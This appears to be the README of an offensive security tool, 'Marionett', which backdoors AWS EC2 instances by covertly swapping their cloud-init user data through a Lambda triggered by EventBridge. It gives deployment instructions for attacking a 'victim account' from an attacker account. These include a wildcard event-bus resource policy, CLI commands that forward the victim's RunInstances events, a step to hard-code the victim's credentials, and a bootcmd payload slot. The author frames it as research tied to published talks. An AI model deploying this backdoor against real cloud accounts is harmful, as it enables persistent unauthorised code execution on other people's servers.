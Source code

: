# Marionett

Marionett is an example of an automated lambda function that runs that swaps out user data on RunInstance and 
EC2 Instance State Change events. It  exists as an example of how an attacker could semi-covertly backdoor EC2 instances
passively on instance change events or actively on creation. The API calls will stand out, but from the user's
perspective when in passive mode there will be no obvious changes to the instance, in active mode the instance is simply
taking longer to start up (although may cause issues with certain provisioning tools). This is a well known attack,
only change to what I've seen elsewhere is adding Event Bridge and Lambda.

In general this is an improved version of [UserDataSwap](https://github.com/RyanJarv/UserDataSwap).

## Active vs Passive

Marionett can run in either active or passive mode, passive is generally safer and less likely to interfere with
infrastructure provisioning however requires the instance to be shutdown through some other means, likely by the end
user. When running in the active mode Marionett will shut down the node shortly after it is initially created with
the RunInstances API, by default this is immediately however can be configured to wait up to 900 seconds after creation
to work around issues that you may run into with various provisioning tools.

## Config
The config is located at `chalicelib/config.yaml` and should be edited before deploy.
### Options
* dynamodb_table
  * Name of the DynamoDB table to create to track instance state.
* sqs_queue
  * Name of the SQSQueue table to create to queue restart events when using active mode.
* active_mode
  * `True` or `False`, enables active mode.
* restart_delay
  * Used when active_mode is set to `True`. 
  * Number of seconds to wait after the RunInstances API is called before restarting the instance.
    * To work around terraform SSH provisioning complaining about an incorrect instance state this can be set to 9. 
      However, this is only useful if an Elastic IP or IPv6 address is used to connect to the instance, otherwise the
      IP will change on restart and SSH provisioning will fail.
    * To work around terraform SSH provisioning when an ElasticIP address is used you can set this to a higher number
      to have it wait till provisioning is complete before restarting. Essentially this needs to be a best guess since
      we don't have any indication when this may be done.
* user_data
  * Our user data we want to set on the instance temporarily.
  * This will get reverted to the original metadata at the next instance stopped event.
  * `bootcmd` will run at every startup regardless of if cloud-init has run previously.

### Default Settings
```
---
dynamodb_table: UserDataSwap
sqs_queue: user-data-swap-restart-delay
active_mode: False
restart_delay: 0
user_data: |-
#cloud-config

bootcmd:
- echo HELLO FROM USER DATA SCRIPT | tee /msg > /dev/kmsg
```

## Cross-Account Access

There is a fair amount of permissions required to deploy this, which is ok if you just want to test it out. To be useful
it may make more sense to deploy in a seperate account then the one you're targeting, this way the initial set up only
requires `events:PutRule` and `events:PutTargets` permissions in the victim account. I'll likely add support for this in
the future, for now you can try the following to do this manually.

__WARNING__: This will allow any AWS account to run any action against the bus set up in the Marionett account,
probably best to set this part up in a account that isn't used for anything else. The permissive resource policy is one
of the ways to get override the lack of permissions assigned to the the put-event rule in the victim account. Doing it
this way avoids the need for `iam:PassRole` permissions in the victim account to create the event bus rules that forward
the events to the Marionette account. It may be possible to reduce these permissions, I need to do more testing here
though.

* In the Marionett account:
  * In the Marionett lambda account create a new event bus named `run-instance-trigger` and give it the following
    resource policy.
    ```
    {
      "Version": "2012-10-17",
      "Statement": [{
        "Sid": "allow_account_to_put_events",
        "Effect": "Allow",
        "Principal": "*",
        "Action": "*",
        "Resource": "<this event bus arn>"
      }]
    }
    ```
  * Set up the following rule to trigger the Marionett function with the event config below.
     ```
      {
        "source": ["aws.ec2"],
        "detail-type": ["EC2 Instance State-change Notification"],
        "detail": {
          "state": ["stopped"]
        }
      }
     ```
  * If active mode is used add a second rule with the following.
     ```
     {
       "source": ["aws.ec2"],
       "detail": {
         "eventSource": ["ec2.amazonaws.com"],
         "eventName": ["RunInstances"]
       }
     }
     ```
* In the victim account:
  * Create the run-instances event trigger:
    ```
    aws --profile victim-account events put-rule \
      --name run-instance-trigger \
      --state ENABLED \
      --event-bus-name default \
      --event-pattern '{
          "source": ["aws.ec2"],
          "detail": {      
            "eventSource": ["ec2.amazonaws.com"],
            "eventName": ["RunInstances"]
          }
        }'
    ```
  * Add a target to forward to the event-bus in the Marionett account:
    ```
    aws events put-targets --rule run-instance-trigger \
      --event-bus-name default \
      --targets "Id"="1","Arn"="arn:aws:events:<region>:<attacker account #>:event-bus/run-instance-trigger"
    ```
* You should see the Marionett triggered when a instance is created in the victim account now.
  * Update the lambda to hard code the credentials needed to make EC2 related calls in the vicitims account and deploy.

## More Info

For more info you can see my post on [Backdooring user data](https://blog.ryanjarv.sh/2020/11/27/backdooring-user-data.html)

## Related Attacks

For another similar attack (Update: AWS now prevents this in most accounts) with different pros/cons take a look at 
[EC2FakeIMDS](https://github.com/RyanJarv/EC2FakeImds). The talk and slides going over these two can be found on
[my blog](https://blog.ryanjarv.sh/2020/12/04/deja-vu-in-the-cloud.html).

## Requirements

* AWS CLI already configured with Administrator permission for the deployment account (which isn't necessarily the
  targeted account, see the Cross Account section for more info).
* Recent version of [Python](https://www.python.org/)
* [Chalice](https://github.com/aws/chalice)
* [AWS CLI](https://pypi.org/project/awscli/)

## Setup process

### Installing dependencies & building the target 

```shell
python3 -m venv venv
source venv/bin/activate
pip install chalice boto3
```

## Deployment

```bash
make deploy/infra
```

## Wish List
* Target individual instances or tags

### Testing

TODO
